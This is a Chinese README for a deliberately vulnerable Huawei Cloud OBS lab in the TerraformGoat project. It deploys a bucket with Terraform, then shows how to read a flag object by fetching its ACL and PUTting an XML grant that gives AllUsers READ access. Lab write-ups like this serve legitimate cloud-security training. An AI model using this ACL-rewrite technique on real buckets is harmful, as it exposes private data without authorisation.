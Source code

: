 # 华为云 OBS Object ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建华为云对象存储 Object ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Object 的 ACL 策略读取到原本不能读取的数据。

## 环境搭建

在容器中运行

```shell
cd /TerraformGoat/huaweicloud/obs/object_acl_writable/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `huaweicloud_access_key` 和 `huaweicloud_secret_key`

> 在华为云「控制台 --》我的凭证」处可以找到访问密钥

```shell
vim terraform.tfvars
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![image](../../../images/1650779200.png)

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Object ACL 读取和写入权限，Object Key 为 flag

## 漏洞利用

尝试读取 flag 文件，发现提示访问拒绝

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650779408.png)

尝试读取 flag 文件的 ACL 策略，发现可以读取

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```

![image](../../../images/1650779592.png)

尝试使用 PUT 方法上传 flag 文件的 Object ACL 策略，在原有策略的基础上增加以下策略，发现可以上传

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```

![image](../../../images/1650779871.png)

再次尝试读取 flag 文件，可以看到成功读取到 flag 文件

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650780002.png)

## 销毁环境

```shell
terraform destroy
```
